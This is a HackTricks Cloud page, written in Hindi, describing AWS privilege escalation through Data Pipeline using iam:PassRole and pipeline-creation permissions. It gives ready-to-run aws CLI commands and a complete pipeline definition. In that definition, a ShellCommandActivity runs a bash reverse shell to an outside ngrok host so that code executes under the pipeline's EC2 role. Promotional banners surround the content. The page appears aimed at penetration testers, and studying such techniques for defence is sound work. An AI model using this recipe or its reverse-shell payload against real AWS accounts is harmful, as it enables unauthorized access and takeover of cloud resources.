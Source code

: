 # AWS - Datapipeline Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

इन **अनुमतियों वाले उपयोगकर्ता एक Data Pipeline बनाकर विशेषाधिकार बढ़ा सकते हैं** जो निर्धारित रोल की **अनुमतियों का उपयोग करके मनमाने कमांड्स को निष्पादित करता है:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन बनाने के बाद, हमलावर इसकी परिभाषा को अपडेट करता है ताकि विशिष्ट क्रियाओं या संसाधन निर्माणों को निर्देशित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **रोल** एक ऐसा रोल होना चाहिए जिसे datapipeline.amazonaws.com द्वारा मान्यता प्राप्त की जा सके और **लाइन 28** में रोल एक ऐसा रोल होना चाहिए जिसे ec2.amazonaws.com द्वारा मान्यता प्राप्त की जा सके और जिसके पास EC2 प्रोफाइल इंस्टेंस हो।

इसके अलावा, EC2 इंस्टेंस केवल उसी रोल तक पहुँच प्राप्त कर सकेगा जिसे EC2 इंस्टेंस द्वारा मान्यता प्राप्त हो (इसलिए आप केवल उसी को चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
**हमलावर द्वारा बनाई गई पाइपलाइन परिभाषा फ़ाइल में निर्देश शामिल होते हैं जो कमांड्स को निष्पादित करने या AWS API के माध्यम से संसाधनों को बनाने के लिए होते हैं**, जिससे Data Pipeline की भूमिका अनुमतियों का लाभ उठाकर संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त किए जा सकते हैं।

**संभावित प्रभाव:** ec2 सेवा भूमिका के लिए सीधा privesc निर्दिष्ट।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
